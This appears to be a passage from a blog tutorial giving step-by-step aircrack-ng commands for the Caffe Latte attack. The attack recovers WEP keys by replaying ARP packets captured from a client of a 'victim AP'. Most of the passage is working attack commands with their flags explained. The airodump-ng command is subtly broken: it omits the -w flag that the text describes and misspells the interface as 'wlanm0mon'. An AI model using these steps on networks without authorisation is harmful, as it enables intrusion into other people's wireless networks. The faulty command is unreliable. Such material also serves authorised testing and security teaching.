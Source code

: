 ### [Back to Attack Listings](#aireplayngwepattacklisting)

## Caffe Latte Attack


The Caffe Latte gets its name from the idea that you can perform this attack in a Cafe very quickly. There are actually other methods to perform this attack using the aircrack-ng suite, but aireplay-ng has the attack wrapped in one command. It does this by capturing an ARP packet from a client (there must be a client connected!), manipulates it, sends it back to the AP, and captures the weak IVs using airodump-ng.

**START**

- 

Put your wireless card in monitor mode ON THE SAME CHANNEL AS THE VICTIM AP (THIS IS A MUST):

`airmon-ng start wlan0 3`

![injectiontest5-1](/content/images/2019/12/injectiontest5-1.png)

The channel number goes at the end of the command, highlighted above.

- 

Verify the card is in monitor mode by re-entering airmon-ng:

`airmon-ng`

![injectiontest3-1](/content/images/2019/12/injectiontest3-1.png)

The interface is changed from **wlan0** to **wlan0mon** indicating the wireless card was succesfully placed into monitoring mode.

- 

Begin the Caffe Latte Attack by starting an airodump-ng capture and writing the keystream to an output file:

`airodump-ng -c 3 --essid DIR-615 caffe-latte-attack-key wlanm0mon`

![caffe-latte-airodump-initial-1](/content/images/2020/01/caffe-latte-airodump-initial-1.png)

    --essid: the name of the SSID (DIR-615)
    -c: the channel the router is running on (3)
    -w: output the keystream to a file (caffe-latte-attack-key)

- 

While an airodump-ng capture is running, perform the Caffe-Latte Attack:

`aireplay-ng -6 -h 00:C0:CA:96:C1:B6 -b 00:18:E7:EA:28:87 -D wlan0mon`

![final-caffe-latte-1](/content/images/2020/01/final-caffe-latte-1.png)

    -6: use the Caffe Latte Attack
    -h: the MAC address of the network card you are using (00:C0:CA:96:C1:B6)
    -b: the MAC address of the victim AP (00:18:E7:EA:28:87)
    -D: disables AP detection
